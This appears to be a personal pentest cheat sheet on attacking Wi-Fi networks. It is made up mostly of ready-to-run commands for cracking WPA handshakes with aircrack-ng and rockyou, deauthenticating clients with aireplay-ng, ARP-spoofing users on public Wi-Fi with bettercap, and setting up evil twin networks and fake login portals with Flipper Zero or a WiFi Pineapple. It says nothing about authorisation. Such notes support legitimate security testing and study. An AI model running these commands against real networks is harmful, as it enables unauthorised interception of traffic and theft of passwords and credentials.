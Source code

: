 # Wi-FI 


## Tools
- aircrack-ng suite
- bettercap
- Flipper 0
- WIFI Pineapple
- cewl
- pipal

# Bruteforce

- https://github.com/flancast90/wifi-bf

```bash
python3 __main__.py -f wordlist.txt -v 
```

![](../images/Pasted%20image%2020240712090835.png)
## Password cracking

- Turn wireless cards into monitor mode
```bash
sudo airmon-ng start wlan0
```
- Check process which can cause trouble
```bash
sudo airmon-ng check kill
```
- Start monitoring SSID from all bands (2.4GHz and 5GHz)
```bash
sudo airodump-ng wlan0 -abg
```
- Listen to the traffic to recover a four way handshake
```bash
sudo airodump-ng --bssid MAC_ADDRESS_OF_THE_ROUTER wlan0
```

- Crack the password with wordlist
**Note that custom wordlists can be generated**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt hash.txt 
```


**Can also be done with a Flipper 0 and esp32 extension or a WIFI pineapple**
## De-authentication attack

```bash
sudo aireplay-ng -0 1 -a MAC_ADDRESS_OF_THE_ROUTER wlan0
```

## Man In The Middle
### Free WI-FI
**Requirements :**
 - Connection to the WI-FI network

- Launch the tool
```bash
# sudo bettercap -iface INTERFACE_NAME
sudo bettercap -iface eth0
```

- Activate net probing
```bettercap
net.probe on
```
- List connections
```bettercap
net.show
```
- Enable ARP spoofing
```bettercap
set arp.spoof.fulduplex true
set arp.spoof.targets IP_TO_SPOOF
```

**Open your best wireshark interface and be happy**

## Evil Twin
- By defaults, if two networks have the same SSID, devices will connect to the strongest and fastest

| Tool | Pros | Cons |
| ---- | ---- | ---- |
| Flipper 0 | I have one but it needs the esp32 extension | Can not connect to a real network so targets will quickly go back to another network |
| WI-FI Pineapple enterprise | Impersonate a network in one click. It also as a web interface. DNS spoofing. Impersonate every SSID it sees. |  |
##### Flipper 0
- `WiFI marauder module` 
- `Evil portal module`:  prompt a login page (google, facebook, ...)

# Resources
- https://github.com/thevickypedia/pywifi-controls